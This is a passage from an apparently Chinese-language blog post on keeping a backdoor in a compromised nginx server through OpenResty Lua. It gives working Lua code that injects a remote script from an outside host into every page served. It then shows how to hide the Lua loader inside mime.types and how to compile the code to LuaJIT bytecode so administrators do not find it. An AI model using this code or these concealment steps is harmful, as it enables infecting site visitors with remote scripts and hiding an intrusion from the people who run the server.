 ### 挂马

在nginx返回数据时，将网页木马插入即可，代码如下：

```lua
function _M.hang_horse()
    local data = ngx.arg[1] or ""
    local html = string.gsub(data, "</head>", "<script src=\"http://docs.xsec.io/1.js\"></script></head>")
    ngx.arg[1] = html
end
```

放到目标网站的/目录下后的效果如下：

```ini

location ~* ^/ {
    body_filter_by_lua 'cmd.hang_horse()';
```

![](/media/images/004.png)

### Lua代码加密及隐藏
### lua加载代码隐藏

毕竟光明正大地在nginx.conf中加入了执行lua的代码后非常容易被发现，攻击者可以用include指令将以下代码改得隐蔽一些。

```ini

http {
  include       mime.types;
  # lua 文件的位置
  lua_package_path "/usr/local/openresty/nginx/conf/lua_src/?.lua;;";
  # nginx启动阶段时执行的脚本，可以不加
  init_by_lua_file 'conf/lua_src/Init.lua';
```

改成以下的内容，看起来与之前的配置完全一样，把加载lua的代码放到mime.types文件中，mime.types是一般用nginx默认的，一般很少有人去查看或改动其内容。

```ini

http {
  include       mime.types;
```

### lua代码加密

即便是把lua加载的配置代码放在隐蔽的地方了，但是还在存在被找到的风险的，找到后如果是明文的lua代码，那行踪将暴露的一览无余，至少将lua代码加密一下。
openresty使用的是luajit，luajit提供了一个luajit -b参数，可以将代码编译为字节码，这样就不容易被看到明文代码了。

使用方式如下图所示（openresty的luajit的默认路径为`/usr/local/openresty/luajit/bin/luajit`），用编译后的lua字节码替换掉明文的文件即可。
![](/media/images/005.png)

### 总结
拿到目标主机的root权限后，只留一个只有web容器权限的nginx+lua后门显然不是最佳的选择，本文只是提供一种可能的思路，测试代码的github地址为：https://github.com/netxfly/nginx_lua_security

虽然很low，但just for share...
